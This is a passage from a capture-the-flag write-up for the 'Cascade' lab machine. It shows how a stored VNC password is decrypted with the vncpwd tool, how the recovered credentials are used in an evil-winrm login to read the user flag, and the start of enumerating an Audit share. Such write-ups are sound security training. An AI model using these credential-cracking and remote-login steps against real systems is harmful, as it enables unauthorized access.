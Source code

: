Decrypting this from and converting to base64 we get the string `a88qS25ayg8=`.

We know that the file is called `VNC install` so we search for password decrypters with `VNC`.

We come accross a tool on github and we compile it on our machine:
[Vncpwdtool](https://github.com/jeroennijhof/vncpwd)

We git clone this and run the commands to compile the binary.

```bash
➜  vncpwd git:(master) gcc -o vncpwd vncpwd.c d3des.c

➜  vncpwd git:(master) ✗ ./vncpwd hash 
Password: sT333ve2
```
### User.txt

We now login with `evil-winrm` and read the user flag.

```bash
➜  cascade evil-winrm -i cascade.htb -u s.smith -p sT333ve2


Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> 
*Evil-WinRM* PS C:\Users\s.smith\Documents> type ../Desktop/user.txt
2560be791{...}
```


# Root

## reversing the dll and exe files

We find the shares folder and enumerate that further.

Since we are not allowed to list the shares it doesnt matter as we already know all of the share names from smb access.

```bash
*Evil-WinRM* PS C:\Shares> cd Audit
*Evil-WinRM* PS C:\Shares\Audit> dir


    Directory: C:\Shares\Audit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```
